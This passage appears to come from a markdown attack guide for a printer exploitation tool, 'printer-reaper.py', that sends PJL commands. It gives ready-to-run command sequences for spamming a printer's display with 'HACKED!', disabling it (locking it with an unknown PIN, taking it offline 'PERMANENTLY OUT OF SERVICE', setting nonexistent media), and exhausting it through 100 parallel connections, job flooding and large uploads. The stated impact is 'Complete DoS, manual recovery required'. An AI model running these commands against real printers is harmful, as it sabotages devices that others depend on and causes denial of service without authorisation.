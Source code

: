 **Objective**: Spam printer display

```bash
# Simple display spam
> dos_display

# Manual spam
while true; do
    echo "display 'HACKED!'"
done | python3 printer-reaper.py -i - <target> pjl
```

**Impact**: User annoyance, social engineering

---

### Attack 3.2: Printer Disable

**Objective**: Make printer reject all jobs

**Method:**
```bash
# Disable printing
> disable

# Lock with unknown PIN
> lock 99999

# Take offline
> offline "PERMANENTLY OUT OF SERVICE"

# Set incompatible settings
> set JOBMEDIA=NONEXISTENT
```

**Impact**: Complete DoS, manual recovery required

---

### Attack 3.3: Resource Exhaustion

**Objective**: Exhaust printer resources

**Methods:**

**Connection Exhaustion:**
```bash
> dos_connections

# Or manually
for i in {1..100}; do
    python3 printer-reaper.py <target> pjl &
done
```

**Memory Exhaustion:**
```bash
# Fill memory with jobs
> hold
> dos_jobs

# Upload large files
> upload huge_file.dat 0:/huge.dat
```
